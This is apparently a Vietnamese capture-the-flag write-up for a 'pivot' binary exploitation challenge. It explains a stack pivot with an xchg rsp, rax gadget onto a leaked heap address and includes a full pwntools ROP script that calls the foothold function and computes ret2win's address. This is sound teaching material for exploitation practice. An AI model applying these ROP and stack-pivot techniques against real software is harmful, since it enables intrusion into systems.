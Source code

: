         > rax + ofset = địa chỉ hàm `ret2win()`
    - Có một gadget để cộng `rax` : `0x00000000004009c4 : add rax, rbp ; ret`
    - `0x00000000004006b0 : call rax` thực thi để cập nhật giá trị địa chỉ thực của hàm trong bộ nhớ chương trình
- Vì ofset để ghi đè `rip` là 40 byte và chỉ còn 24 byte cho các chuỗi gadget nên không đủ cho các chuỗi gadget thực thi mục đích, vì vậy ta dùng kĩ thuật `stack pivot`, có nghĩa là thay đổi luồng thực thi của chương trình bằng cách thay đổi con trỏ `rsp`. Trong các gadget trong tệp nhị phân không có lệnh `leave, ret` thì ta có thể dùng lệnh `xchg rsp, rax ; ret` để thay đổi `rsp` bằng cách đổi giá trị 2 thanh ghi với nhau bằng lệnh `xchg`
- Ở bài này cho ta nhập 2 lần, lần đầu cho nhập 256 byte và in ra địa chỉ heap của dữ liệu đầu vào đầu tiên nên lúc này ta stack pivot bằng cách thay `rsp` bằng địa chỉ heap đó bằng lần nhập thứ 2 và ở lần nhập đầu tiên thì ta nhập chuỗi rop cần thực hiện để chương trình có thể thực thi khi `rsp` thay đổi đến đó 

### Script
```python=
#!/usr/bin/python3

from pwn import *

exe = ELF('./pivot', checksec = False)

p = process(exe.path)

ofset = 0x0000000000000a81 - 0x000000000000096a
foothold_got = 0x601040
foothold_plt = 0x400720
pop_rax = 0x00000000004009bb
mov_rax = 0x00000000004009c0
call_rax = 0x00000000004006b0
add_rax_rbp = 0x00000000004009c4
pop_rbp = 0x00000000004007c8
xchg_rsp_rax = 0x00000000004009bd

p.recvuntil(b'to pivot: ')

p.recv(2)

address_exe = int(p.recv(12), 16)

log.info(hex(address_exe))

payload1 = p64(foothold_plt)
payload1 += p64(pop_rax) + p64(foothold_got)
payload1 += p64(pop_rbp) + p64(ofset)
payload1 += p64(mov_rax) + p64(add_rax_rbp) + p64(call_rax)

#input()
p.sendlineafter(b'> ', payload1)

payload2 = b'A'*40
payload2 += p64(pop_rax) + p64(address_exe)
payload2 += p64(xchg_rsp_rax)

p.sendlineafter(b'> ', payload2)

p.interactive()
```
